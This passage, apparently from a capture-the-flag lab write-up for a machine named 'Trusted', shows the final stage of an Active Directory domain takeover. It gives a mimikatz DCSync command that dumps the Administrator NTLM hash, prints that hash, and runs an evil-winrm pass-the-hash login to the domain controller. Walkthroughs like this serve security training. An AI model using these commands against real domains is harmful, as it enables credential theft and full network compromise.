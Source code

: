 Having this golden ticket allow us to perform a **DCSync** attacks on the parent domain:

```
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:TRUSTEDDC\Administrator /domain:trusted.vl" "exit"
```

![alt text](/assets/Trusted/Trusted-DCSync.png)

The NTLM hash of the Administrator user is:

```text
15db914be1e6a896e7692f608a9d72ef
```

We can now open an interactive shell on the DC as Administrator using WINRM:

```text
evil-winrm -i trusteddc.trusted.vl -u 'Administrator' -H '15db914be1e6a896e7692f608a9d72ef'
```

This will give us the last flag! (Or not?)

![alt text](/assets/Trusted/Trusted-DCAsAdmin.png)
